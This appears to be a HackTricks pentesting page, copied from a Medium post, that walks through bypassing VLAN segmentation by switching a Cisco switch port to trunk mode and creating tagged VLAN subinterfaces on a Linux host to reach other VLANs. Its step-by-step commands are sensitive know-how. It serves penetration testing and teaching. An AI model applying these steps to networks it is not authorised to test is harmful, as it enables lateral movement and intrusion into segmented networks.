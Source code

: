 # Lateral VLAN Segmentation Bypass

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

**This page was copied from** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)****

If you have access to a switch that you are directly connected to, you have the ability to bypass VLAN segmentation within the network. Simply switch the port to trunk mode (otherwise known as trunk), create virtual interfaces with the IDs of the target VLANs, and configure an IP address. You can try requesting the address dynamically (DHCP) or you can configure it statically. It depends on the case.

First you need to find out exactly which port you are connected to. This is done via CDP messages, or you can search the port by mask **include**.

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**If the CDP is suddenly disabled, you can try searching the port by our MAC address.**

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

<figure><img src="../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

Before we switch to trunk mode, we need to list the existing VLANs and find out their identifiers. Then we will hang these identifiers on our interface to access VLANs. Thus, thanks to the trunk we can access any VLAN. By the way, the port we are connected to belongs to VLAN 10.

```
SW1# show vlan brief
```

<figure><img src="../../.gitbook/assets/image (178) (2).png" alt=""><figcaption></figcaption></figure>

**Here we go. Enter interface configuration mode and go into trunk mode.**

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

During the switch to trunk mode, connectivity is lost. But I will fix that.

<figure><img src="../../.gitbook/assets/image (70) (3).png" alt=""><figcaption></figcaption></figure>

Create virtual interfaces and “hang” VLAN ID on them, and then raise them.

```
~$ sudo vconfig add eth0 10
~$ sudo vconfig add eth0 20
~$ sudo vconfig add eth0 50
~$ sudo vconfig add eth0 60
~$ sudo ifconfig eth0.10 up
~$ sudo ifconfig eth0.20 up
~$ sudo ifconfig eth0.50 up
~$ sudo ifconfig eth0.60 up
```

Now you need to request an address via DHCP. But if in your case this is not possible, you can set the address statically.

```
~$ sudo dhclient -v eth0.10
~$ sudo dhclient -v eth0.20
~$ sudo dhclient -v eth0.50
~$ sudo dhclient -v eth0.60
```

<figure><img src="../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

Example of configuring a static IP address on an interface (VLAN 10):

```
~$ sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```

To test the connection, I initiate ICMP requests to the default gateways **for VLANs 10, 20, 50, 60**

<figure><img src="../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

In the end, **I bypassed VLAN** segmentation and can get into any VLAN network, which unties my hands for the next steps

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
